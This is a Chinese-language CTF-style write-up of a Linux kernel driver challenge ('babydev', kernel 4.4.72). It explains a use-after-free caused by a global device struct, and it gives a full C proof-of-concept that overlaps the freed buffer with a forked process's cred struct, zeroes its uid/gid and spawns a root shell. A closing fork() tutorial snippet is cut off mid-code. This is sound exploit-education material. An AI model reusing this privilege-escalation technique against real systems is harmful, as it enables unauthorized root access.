 #### 思路
如果我们打开了两个设备文件,也就是调用了两次babyopen函数，因为babydev_struct是全局的,第一次分配了buf,第二次其实将会覆盖第一次分配的buf;如果我们free了第一个buf，那么第二个其实就已经是被释放过的了,这样我们就制造了一个UAF漏洞了....
然后我们结合前面说的slub机制,我们可以想办法把某个进程的cred结构体被放进这个UAF的空间里.思路如下

- 首先打开两次设备，通过ioctl将babydev_struct大小为的cred结构体的大小(不同版本kernel的可能不一样,需要自己通过源码去算);
- 然后释放其中一个设备，fork出一个新进程，此时这个新进程的cre 的空间就会和之前释放的空间重叠;
- 最后,我们可以通过另一个文件描述符对这块空间进行写操作，只需要将uid，gid改为0，就可以实现root提权了....

最终poc
```
//kernel 4.4.72
//poc.c
//gcc poc.c -o poc -static -w
#include<stdio.h>
#include<fcntl.h>
#include <unistd.h>
int main(){
    int fd1,fd2,id;
    char cred[0xa8] = {0};				//设置cred相同的长度
    fd1 = open("dev/babydev",O_RDWR);
    fd2 = open("dev/babydev",O_RDWR);
    ioctl(fd1,0x10001,0xa8);			//释放第一个设备,并申请a8大小的内存
    close(fd1);							//关闭这个设备
    id = fork();
    if(id == 0){						//id=0时是子进程
        write(fd2,cred,28);				//写入28个0，一直把egid及其之前的值都变为成0，就会被认为是root了;
        if(getuid() == 0){
            printf("[*]welcome root:\n");
            system("/bin/sh");
            return 0;
        }
    }
    else if(id < 0){
        printf("[*]fork fail\n");
    }
    else{
        wait(NULL);
    }
    close(fd2);
    return 0;
}
```
关于fork函数的直白理解(https://blog.csdn.net/jason314/article/details/5640969)
```
#include <unistd.h>
#include <stdio.h> 
int main () 
{ 
	pid_t fpid; //fpid表示fork函数返回的值
	int count=0;
	fpid=fork(); 
	if (fpid < 0) 
		printf("error in fork!"); 
	else if (fpid == 0) {
		printf("i am the child process, my process id is %d/n",getpid()); 
		printf("我是爹的儿子/n");//对某些人来说中文看着更直白。
		count++;
	}
	else {
		printf("i am the parent process, my process id is %d/n",getpid()); 
		printf("我是孩子他爹/n");
		count++;
	}
	printf("统计结果是: %d/n",count);
```